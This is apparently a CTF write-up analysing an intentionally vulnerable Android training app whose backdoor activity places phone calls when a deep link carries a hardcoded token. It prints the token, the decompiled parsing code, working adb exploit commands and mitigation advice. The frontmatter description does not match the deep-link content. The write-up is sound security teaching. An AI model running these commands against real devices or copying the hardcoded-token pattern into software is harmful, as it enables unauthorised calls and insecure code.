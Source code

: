 ```yaml
---
title: "Challenge 03: AndroDialer"
published: 2025-09-22
description: "Cracking an insecure encryption routine to recover secrets."
image: "../../hextree.io/Hextree.io Intent Attack Writeup Part 1.webp"
category: "Mobile"
tags: ["android", "crypto"]
series:
  id: "8ksec-android-challenges"
  order: 3
---
```


# Android Deep Link Vulnerability Analysis: Hardcoded Token Bypass

In this challenge, the application is vulnerable to deep link misconfiguration due to hardcoded token values combined with extensive permissions. Let's dive into the technical analysis.

## Initial Discovery

By first inspecting the Java code, we can see the call permission that we need to focus on:

![alt text](2025-09-22_13-41.png)
Then, I discovered an activity called `CallHandlerServiceActivity`.

## The CallHandlerServiceActivity Activity

This `CallHandlerServiceActivity` is a **backdoor activity** in the app that allows bypassing normal security checks to make phone calls if you provide the correct `authentication` token, I will explain with code snippets what is happening:

## Step 1: URI Data Extraction

First, it gets the URI data from the incoming intent and checks if it's hierarchical (has query parameters). This is the entry point for processing deep links that could contain authentication tokens:

```java
Uri data = getIntent().getData();
if (data != null) {
    if (data.isHierarchical()) {
        try {
            for (String str : data.getQueryParameterNames()) {
            }
            List<String> pathSegments = data.getPathSegments();
```

## Step 2: Token Hunting in 5 Different Locations

After that, it searches for the token in that URI in **5 different locations**:

## 1. Intent Extras

```java
ArrayList arrayList = new ArrayList();
arrayList.add(getIntent().getStringExtra("enterprise_auth_token"));
```

## 2. Query Parameters

```java
arrayList.add(data.getQueryParameter("enterprise_auth_token"));
```

## 3. Manual Query String Parsing

```java
Pattern patternCompile = Pattern.compile("enterprise_auth_token=([^&]+)");
Matcher matcher = patternCompile.matcher(query);
if (cVar != null && ((AbstractC0535a) cVar.g()).c() > 1) {
    arrayList.add(((C0533A) cVar.g()).get(1));
```

## 4. Path Segments

```java
List<String> pathSegments2 = data.getPathSegments();
int iIndexOf2 = pathSegments2.indexOf("token");
if (iIndexOf2 >= 0 && iIndexOf2 < pathSegments2.size() - 1) {
    arrayList.add(pathSegments2.get(iIndexOf2 + 1));
```

## 5. Fragment Processing

```java
String fragment = data != null ? data.getFragment() : null;
if (fragment != null) {
    if (b.o0(fragment, "token=", false)) {
        arrayList.add(b.z0(b.x0(fragment, "token="), "&"));
    }
    *// Multiple fragment parsing methods for different formats*`
```

## The Critical Discovery: Hardcoded Tokens

Now we know the where and the how, but what about the "what key"?

Simply put, it's super hardcoded in the app. Here's the validation check:

```java
if (str5.equals("8kd1aL3R_s3Cur3_k3Y_2023") ||
    str5.equals("8kd1aL3R-s3Cur3-k3Y-2023") ||
    h.a(strDecode, "8kd1aL3R_s3Cur3_k3Y_2023") ||
    h.a(strDecode, "8kd1aL3R-s3Cur3-k3Y-2023"))
```

## Phone Number Extraction

Then it extracts the phone number from the same URI using:

## Intent Extras

```java
if (getIntent().hasExtra("phoneNumber")) {
    strGroup = getIntent().getStringExtra("phoneNumber");
}
```

## Tel Scheme

```java
else if (h.a(data2 != null ? data2.getScheme() : null, "tel")) {
    strGroup = data3.getSchemeSpecificPart();
}
```

## Custom dialersec Scheme

```java
else if (h.a(data4 != null ? data4.getScheme() : null, "dialersec")) {
    if (h.a(data5 != null ? data5.getHost() : null, "call")) {
        String queryParameter = data6 != null ? data6.getQueryParameter("number") : null;
```

## Call Execution

Finally, it executes the call using the phone number if the token validation passes:

```java
if (strGroup == null || strGroup.length() == 0) {
    Log.e("CallHandlerService", "No target contact found in request: " + getIntent());
} else {
    try {
        Intent intent = new Intent("android.intent.action.CALL");
        intent.setData(Uri.parse("tel:" + strGroup));
        intent.addFlags(268435456);
        startActivity(intent);
    } catch (Exception e10) {
        Log.e("CallHandlerService", "Call service connection failed", e10);
    }
}
```

## Exploitation

Using ADB, we can simply call the activity using:

```bash
adb shell am start -a android.intent.action.VIEW -d "dialersec://call?enterprise_auth_token=8kd1aL3R_s3Cur3_k3Y_2023\&number=1234567890"
```

> Pro Tip: We used \& because in PowerShell, & gets treated differently than in bash.

Or simply use the fragment approach:

```bash
adb shell am start -a android.intent.action.VIEW -d 'dialersec://call?number=1234567890#token=8kd1aL3R_s3Cur3_k3Y_2023'
```

I wrote a simple POC that I'll share on my GitHub:

![alt text](2025-09-22_14-15.png)

Some important questions that came across my `n00bie` brain:

## 1. What's the Real Vulnerability?

**The vulnerability has TWO components:**

Deep Link Component

- Custom scheme `dialersec://` can be **hijacked** by malicious apps
- No domain verification like proper App Links
- Multiple attack vectors through various parsing methods

Hardcoded Token Component

- **Static credentials** `8kd1aL3R_s3Cur3_k3Y_2023` never change
- **Reverse engineering** easily reveals tokens through decompilation
- **No revocation mechanism** - tokens work forever once discovered

> However, the hardcoded tokens are the PRIMARY vulnerability - even with secure deep links, static credentials make the backdoor exploitable.
>

## 2. Device-Specific Behavior Mystery

The second most important question is that the POC worked on:

- AOSP emulator (Android 14)
- S22 Ultra real device (Android 14)

But it **could not work** on a Xiaomi device using Android 10. When starting the POC, it routes the number to the real dialer of the phone instead of initiating the call directly.

**Theory**: MIUI might be blocking such deep link exploitation through:

- Intent filtering and sanitization
- Extra validation layers
- Fragment stripping from suspicious URIs
- Enhanced security policies for cross-app communication

This demonstrates how different Android implementations handle the same vulnerability differently, with some OEMs providing additional security layers that mitigate specific attack vectors.

## Mitigation Recommendations

To secure against this type of vulnerability:

1. **Replace hardcoded tokens** with dynamic, time-based authentication
2. **Implement proper deep link validation** with input sanitization
3. **Use App Links instead of custom schemes** for better security
4. **Add rate limiting** and user confirmation for sensitive actions
5. **Implement certificate pinning** for token validation

---

*For more information about deep link best practices, visit the
